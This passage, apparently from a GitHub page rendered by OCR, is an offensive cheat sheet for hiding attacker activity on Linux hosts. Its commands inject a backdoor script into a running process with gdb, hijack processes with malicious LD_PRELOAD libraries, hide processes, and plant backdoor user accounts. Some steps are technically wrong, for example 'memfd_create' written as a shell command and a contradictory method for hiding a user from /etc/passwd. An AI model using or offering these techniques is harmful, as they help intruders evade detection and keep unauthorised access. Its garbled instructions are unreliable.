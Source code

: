 #### Process Priority Manipulation
- **Renicing processes to reduce visibility:** Reduces the process priority to the lowest level (making it less likely to show up in resource-heavy scans).
	```bash
	renice +19 <pid>
	```

#### Process Injection & Code Injections
- **Inject malicious code into legitimate processes:** Tools like `ptrace`, `LD_PRELOAD`, or `gdb` can inject code into existing processes to evade detection.
	```bash
	gdb -p <pid> -ex "call system(\"/bin/bash /tmp/backdoor.sh\")" -ex "detach" -ex "quit"
	```
- **Hiding processes with `libprocesshider`:**
	- Use the `libprocesshider` library to hide malicious processes from system commands like `ps` or `top`.
- **DLL Injection (For Wine or Cygwin Environments):**
	```bash
	wine inject.exe /path/to/malicious.dll
	```

#### Process Hijacking
- **LD_PRELOAD Library Hijacking:** Use the `LD_PRELOAD` environment variable to inject malicious shared libraries into system processes.
    ```bash
    export LD_PRELOAD=/tmp/malicious.so
    ```
- **Hijack a Legitimate Process Using LD_PRELOAD:**
	```bash
	LD_PRELOAD=/path/to/malicious.so /bin/ls
	```

#### Memory Evasion Techniques
- **Use `memfd_create` for in-memory payload execution:** Execute payloads purely in memory using `memfd_create` to avoid writing to disk. This technique is effective at evading file-based detection.
    ```bash
    memfd_create <payload>
    ```

# User and Identity Evasion

#### Creating or Modifying User Accounts
- **Create a low-privilege user account:** Creates a new user with a specific shell and group.
	```bash
	useradd -m -s /bin/bash -G <group> <username>
	```
- **Adding a backdoor user without showing in `/etc/passwd`:**
	- Manually add user entries in `/etc/passwd`, `/etc/shadow`, and `/etc/group` with the required attributes, then change file permissions to restrict visibility.
